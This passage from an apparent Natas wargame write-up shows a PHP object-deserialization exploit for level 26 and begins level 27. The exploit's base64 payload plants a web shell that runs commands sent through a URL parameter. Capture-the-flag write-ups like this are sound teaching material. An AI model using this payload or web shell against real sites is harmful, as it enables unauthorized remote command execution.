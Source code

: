 ```
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                       
      
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }

    $blah = new Logger("/var/www/natas/natas26/img/something.php");

    $fred = serialize([$blah]);
    print base64_encode($fred);
    unserialize($fred);
?>
```

This produces the following base64 string. 

```
YToxOntpOjA7Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czo0MDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvc29tZXRoaW5nLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjA6IiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjMzOiI8P3BocCBlY2hvKHN5c3RlbSgkX0dFVFsnYyddKSk7Pz4iO319
```

Adding this to the `drawing` variable then lets us create a file on the server called `something.php` which we can then give a variable `/?c=` 

## Level 27

> MYSQLi, or how I learned to stop worrying and love the single quote.  


```
function checkCredentials($link,$usr,$pass){
 
    $user=mysql_real_escape_string($usr);
    $password=mysql_real_escape_string($pass);
    
    $query = "SELECT username from users where username='$user' and password='$password' ";
    $res = mysql_query($query, $link);
    if(mysql_num_rows($res) > 0){
        return True;
    }
    return False;
}
```

By process of elimination (and a bit of common sense) we worked out that there was an active user account by the name of `natas28`, conviniently enough the username for the next level of the NATAS challenges. 
